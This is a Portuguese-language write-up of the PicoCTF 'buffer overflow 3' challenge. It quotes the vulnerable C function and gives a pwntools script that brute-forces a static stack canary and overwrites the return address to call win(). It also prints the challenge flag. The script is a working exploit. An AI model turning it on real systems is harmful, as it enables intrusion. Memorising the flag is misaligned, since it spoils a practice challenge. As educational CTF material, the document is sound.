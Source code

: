 # WriteUp: buffer overflow 3
## Descrição do Desafio:
**Autor**: Sanjay C / Palash Oswal \
**Plataforma**: [PicoCTF](https://play.picoctf.org/practice/challenge/260?category=6&page=3) \
**Categoria**: Binary Exploitation \
**Dificuldade**: Difícil \
**Data**: 2022 \
**Descrição**:
> Do you think you can bypass the protection and get the flag?
## Passo a Passo da Solução
### 1. Análise do arquivo fornecido
Assim como os anteriores, este fornece o arquivo fonte, `vuln.c`. A análise deste arquivo nos mostra que há uma vulnerabilidade de `buffer overflow` na função `vuln()`, mas dessa vez temos um desafio no caminho, a existência de um canário de 4 caracteres.

{% code title="vuln.c" overflow="wrap" lineNumbers="true" %}

```c
void vuln(){
   char canary[CANARY_SIZE];
   char buf[BUFSIZE];
   char length[BUFSIZE];
   int count;
   int x = 0;
   memcpy(canary,global_canary,CANARY_SIZE);
   printf("How Many Bytes will You Write Into the Buffer?\n> ");
   while (x<BUFSIZE) {
      read(0,length+x,1);
      if (length[x]=='\n') break;
      x++;
   }
   sscanf(length,"%d",&count);

   printf("Input> ");
   read(0,buf,count);

   if (memcmp(canary,global_canary,CANARY_SIZE)) {
      printf("***** Stack Smashing Detected ***** : Canary Value Corrupt!\n"); // crash immediately
      fflush(stdout);
      exit(0);
   }
   printf("Ok... Now Where's the Flag?\n");
   fflush(stdout);
}
```

{% endcode %}

Também podemos identificar a existência da função `win()`, dessa vez sem parâmetros.
### 2. Exploit
O objetivo é o mesmo dos anteriors, sobrescrever o valor de retorno da função `vuln()`, mas dessa vez temos que descobrir o valor do canário para sobrescrevermos ele com o mesmo valor, e dessa forma não causar erro no programa.

Por sorte, o canário é de apenas 4 caracteres, e ele é lido de um arquivo `canary.txt`, então isso significa que ele não é aleatório.
### 3. Solução
A solução encontrada pode não ser a melhor, mas funciona. Como o canário tem apenas 4 caracteres, foi usado força bruta para descobrir o valor dele.

A lógica, é percorrer cada letra e número do alfabeto e ir sobrescrevendo apenas um caractere por vez, aí se não ocorrer erro, encontramos um caractere do canário, e caso ocorra erro continuamos a percorrer os caracteres possíveis.
### 3.1 Solução com Python

{% code title="solve.py" overflow="wrap" lineNumbers="true" %}

```py
from pwn import *

elf = context.binary = ELF("./vuln")

def brute_forcing():
    canary = b""
    for i in range(4):
        caracteres = string.ascii_letters + string.digits
        for c in caracteres:
            c = str.encode(c)
            try:
                p = remote(ip, porta) #Troque pelos valores fornecidos

                p.sendlineafter(b"> ", str.encode(str(64 + i + 1)))
                p.sendlineafter(b"Input> ", fit({64: canary + c}))

                resposta = p.recvline()
                if b"Stack Smashing Detected" in resposta:
                    continue
                else:
                    canary += c
                    break
            finally:
                p.close()
    return canary

payload = flat(
    "A" * 64,
    brute_forcing(),
    "A" * 16,
    elf.sym["win"],
    0x0
)

p = remote(ip, porta) #Troque pelos valores fornecidos
p.sendlineafter(b"> ", b"92")
p.sendlineafter(b"Input> ", payload)
print(p.recvall().decode())
```

{% endcode %}

### Flag
`picoCTF{Stat1C_c4n4r13s_4R3_b4D_0bf0b08e}`
## Autor da WriteUp
[Membro de Exploitation - HenriUz](https://github.com/HenriUz)
